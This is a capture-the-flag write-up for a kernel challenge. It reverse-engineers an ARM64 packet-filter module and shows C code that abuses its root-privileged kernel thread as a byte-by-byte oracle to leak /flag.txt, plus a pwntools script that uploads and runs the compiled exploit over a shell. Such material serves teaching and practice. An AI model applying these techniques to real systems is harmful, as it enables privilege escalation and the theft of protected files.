# Solution

Run the solve script
```bash
cd solve
./solve.py $IP_ADDRESS $PORT
```

## Better Packet Filter

The environment drops the player into an emulated Linux kernel with a Busybox userspace.
They are initialized as an unprivileged `ctf` user with uid 1000 so we can't read the flag.
```
Booting kernel...
Boot took 1.84 seconds

Welcome to SVUSCG
tip: Run "stty -echo"
-sh: can't access tty; job control turned off
~ $ stty -echo
stty -echo
~ $ id
uid=1000(ctf) gid=1000 groups=1000
~ $ whoami
ctf
~ $ cat /flag.txt
cat: can't open '/flag.txt': Permission denied
~ $ ls -l /flag.txt     
-r--------    1 root     0               18 May 23 01:58 /flag.txt
~ $
```

The player does not have the ability to read addresses or dmesg, but they can see a kernel module called `filter` is loaded.
```
~ $ lsmod
filter 12288 0 - Live 0x0000000000000000 (O)
~ $ cat /proc/kallsyms | head
0000000000000000 T _text
0000000000000000 t __pi__text
0000000000000000 t bcm2835_handle_irq
0000000000000000 T _stext
0000000000000000 t __pi__stext
0000000000000000 T __irqentry_text_start
0000000000000000 t bcm2836_arm_irqchip_handle_irq
0000000000000000 t dw_apb_ictl_handle_irq
0000000000000000 t gic_handle_irq
0000000000000000 t gic_handle_irq
~ $ dmesg
dmesg: klogctl: Operation not permitted
~ $
```

The user is provided with a dockerfile and a script to run the same kernel and kernel module, but the flag is redacted.
Loading up the kernel module in ghidra shows that it is an ARM64 kernel module.


Here we can see that the module initializes at `/proc/filter`.


And it has a single ioctl interface, with two commands: 
- Command `0x40086601` runs `set_program`
- Command `0x40086602` runs `should_drop`

## `set_program`
The function `set_program` accepts a single parameter: a pointer to userspace. It reads `0x10` bytes and makes sure the last 8 bytes (stored in `local_30`) is a `uint64_t` that's <= `0x1000`.


`local_30` is an integer is treated as the size for an allocation, stored in `__s`.
Next, the initial first 8 bytes copied from userspace (stored in `local_38`) is treated as yet another userspace pointer, which the kernel reads `local_30` bytes from.
Finally it sets `current_program` to that new allocation, and `DAT_00100dc8` to the size.


In summary, the user provides a pointer to a structure that looks like this:
```c
struct program {
    uint8_t __user *code;
    uint64_t len;
}
```

The kernel modules reads `len` bytes from `program`, saves the program in `current_program`, and saves the size in `DAT_00100dc8`.

## `should_drop`
`should_drop` accepts a single parameter: a userspace pointer to a null-terminated string.
It makes sure `current_program` is non-null, copies the string from the user, and invokes `spawn_filter_thread`.


`spawn_filter_thread` will just invoke `should_drop_inner` in a new thread, and wait for it to finish.
It sends a pointer to the input argument.


`should_drop_inner` will read a file of up to 0x100 bytes, and provide it as input to `execute_filter` along with the `current_program` and the previously mentioned `current_program_len` at `DAT_00100dc8`.
Then at the bottom, the `complete` call tells `spawn_filter_thread` that it's done executing.


It should be noted that normally, trying to read a file outside our privileges in a kernel module would fail (so we couldn't read `/flag.txt`)
since it's running inside of our own privilege context, but since the read is happening in a spawned kernel thread it runs with privileges similar to root!
That means that we can send files that we normally can't read.

## The Packet Filter Interpreter
The interpreter creates some object in `local_40` and starts executing instructions, where each instruction is 4 bytes long.


The instruction evaluator gets some registers inside of the instruction object.


So now we know the general regsiters are laid out like this:
```c
enum reg_encoded {
    REG_R0,
    REG_R1,
    REG_R2,
    REG_R3,
    REG_R4,
    REG_R5,
    REG_SP,
    REG_LR,
};

struct general_registers {
    uint16_t r0;
    uint16_t r1;
    uint16_t r2;
    uint16_t r3;
    uint16_t r4;
    uint16_t r5;
    uint16_t sp;
    uint16_t lr;
};
```

And an individual 4-byte instruction is laid out like this:
```c
struct instruction {
    uint8_t op;
    struct {
        enum reg_encoded reg0 : 4;
        enum reg_encoded reg1 : 4;
    };
    uint16_t imm;
}
```

At the top we see instructions that will ACCEPT or DROP the packet, along with `mov` and various arithmetic instructions.



Further down we have comparison and branch instructions.



And we also have load/store instructions. The packet is loaded at the start of memory, and the stack starts at the end of memory,
similar to a heap and stack in a normal memory model.


## Solving

Using the instruction set we've seen, we can write a simple program that checks if the `i`'th byte of the program is equal to `n`
```asm
ldb r0, [i] // r0 = packet[i]
cmp r0, n   // if r0 == n then DROP else ACCEPT
beq 4
accept
drop
```

And in C we can create these instructions like this:
```c
enum operation : uint8_t {
    // Exit conditions
    OP_ACCEPT = 0,
    OP_DROP = 1,
    // cmp
    OP_CMP_IMM = 23,
    // if ==
    OP_BEQ_IMM = 29,
    // load byte
    OP_LDB_IMM = 43,
};

struct instruction {
    enum operation op;
    struct {
        uint8_t reg0 : 4;
        uint8_t reg1 : 4;
    };
    uint16_t imm;
};

#define INSN_LDB_IMM(REG0, IMM)                                                \
    ((struct instruction){                                                     \
        .op = OP_LDB_IMM, .reg0 = REG0, .reg1 = 0, .imm = IMM})

#define INSN_CMP_IMM(REG0, IMM)                                                \
    ((struct instruction){                                                     \
        .op = OP_CMP_IMM, .reg0 = REG0, .reg1 = 0, .imm = IMM})

#define INSN_BEQ_IMM(IMM)                                                      \
    ((struct instruction){.op = OP_BEQ_IMM, .reg0 = 0, .reg1 = 0, .imm = IMM})

#define INSN_ACCEPT()                                                          \
    ((struct instruction){.op = OP_ACCEPT, .reg0 = 0, .reg1 = 0, .imm = 0})

#define INSN_DROP()                                                            \
    ((struct instruction){.op = OP_DROP, .reg0 = 0, .reg1 = 0, .imm = 0})
```

And lastly here is a function that checks if `flag[i] == n` 
```c
// Check if flag[i] == n
bool check_byte(int fd, uint16_t i, uint8_t n) {
    // Create the program
    const uint8_t r0 = 0;
    struct instruction code[] = {
        INSN_LDB_IMM(r0, i), // 0. ldb r0, [i]
        INSN_CMP_IMM(r0, n), // 1. cmp r0, n
        INSN_BEQ_IMM(4),     // 2. if eq goto 4
        INSN_ACCEPT(),       // 3. accept
        INSN_DROP(),         // 4. drop
    };
    struct program program = {
        .code = (uint8_t *)code,
        .len = sizeof(code),
    };

    // Calls `set_program`
    int result = ioctl(fd, 0x40086601, &program);
    if (result < 0) {
        perror("ioctl set_program failed");
        abort();
    }

    // Calls `should_drop` with the contents of `/flag.txt` as the input packet
    result = ioctl(fd, 0x40086602, "/flag.txt");
    if (result < 0) {
        perror("ioctl should_drop failed");
        abort();
    }
    if (result > 2) {
        printf("Invalid bool %d result\n", result);
        abort();
    }
    return result;
}
```

Run this function linearly to check every byte in the flag.
We can also test this locally by running qemu on our host rather than connecting remotely.

```
~ $ ./a.out
Opening /proc/filter
Leaking flag

Got flag SVUSCG{fake-flag}
```

## Sending the payload

After compiling our solution to an ARM64 ELF binary, we need to upload it remotely.
Since we only have shell access without scp/ftp, we can compress the binary then base64 encode it and send it in chunks.
Pwntools can only send 4096 byte at a time, so we can repeatedly send `echo` commands to upload and execute our payload to the remote instance.

```py
#!/usr/bin/env python3

import base64
import gzip
import pwn
import sys

target = sys.argv[1]
port = int(sys.argv[2])

# Compress and encode the payload
with open("./a.out", "rb") as fp:
    compressed = gzip.compress(fp.read())
    payload = base64.b64encode(compressed).decode()

# Connect to the challenge
p = pwn.remote(target, port)
p.info("Waiting for shell...")
p.recvuntil(b"~ $")
p.sendline(b"stty -echo")
p.recvuntil(b"~ $")

# Send the payload in chunks
n = 1
chunk_size = 2048
r = range(0, len(payload), chunk_size)
for i in r:
    p.info(f"Sending command {n}/{len(r)}")
    chunk = payload[i : i + chunk_size]
    cmd = f"echo -n {chunk} >> b.txt"
    p.sendline(cmd.encode())
    p.recvuntil(b"~ $")
    n += 1

# Decode, decompress, and execute payload
p.info("Running payload...")
p.sendline(b"base64 -d b.txt | gzip -cd > a.out && chmod +x a.out && ./a.out")
p.recvuntil(b"Got flag ")
p.info(p.recvline().decode().strip())
```
